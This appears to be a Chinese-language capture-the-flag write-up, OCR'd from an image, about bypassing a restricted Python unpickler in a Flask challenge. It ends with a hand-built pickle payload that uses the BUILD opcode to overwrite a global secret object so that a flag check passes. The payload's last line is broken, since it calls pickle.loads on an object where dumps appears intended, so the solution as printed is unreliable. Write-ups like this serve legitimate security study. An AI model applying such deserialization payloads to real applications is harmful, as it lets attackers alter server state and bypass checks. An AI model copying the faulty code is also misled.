 ```python
            return render_template('unpickle_result.html', result=result, pickle_data=pickle_data, giveflag=correct)
        except Exception as e:
            print(repr(e))
            return "Something wrong"

    sample_obj = Animal('一给我哩giaogiao', 'Giao')
    pickle_data = base64.b64encode(pickle.dumps(sample_obj)).decode()
    return render_template('unpickle_page.html', sample_obj=sample_obj, pickle_data=pickle_data)


if __name__ == '__main__':
    app.run(host='0.0.0.0', port=5000)
```

我们可以控制反序列化的内容

但是反序列化还有限制:

```python
class RestrictedUnpickler(pickle.Unpickler):
    def find_class(self, module, name):
        if module == '__main__':
            return getattr(sys.modules['__main__'], name)
        raise pickle.UnpicklingError("global '%s.%s' is forbidden" % (module, name))


def restricted_loads(s):
    return RestrictedUnpickler(io.BytesIO(s)).load()
```

只能再`__main__`中寻找属性,这样我们也就无法直接读取secret里的内容了

关键:

`return render_template('unpickle_result.html', result=result, pickle_data=pickle_data, giveflag=correct)`

不知道是`correct!=False`给flag还是`correct==True`给flag

决定correct的是:` correct = (result == Animal(secret.name, secret.category))`

会调用`Animal的__eq__`我们可以令`__eq__`等于其他的函数来绕过,但是没有找到合适的两个参数的函数

后来发现`Animal(secret.name, secret.category)`是在反序列化之后执行的,如果我们可以修改secret,那么我们就可以控制结果

payload:

```python
import pickle
import base64
p=b'''c__main__
secret
(S'name'
S'test'
S'category'
S'test'
db'''+pickle.loads(Animal("test","test"))
print(base64.b64encode(p))
```
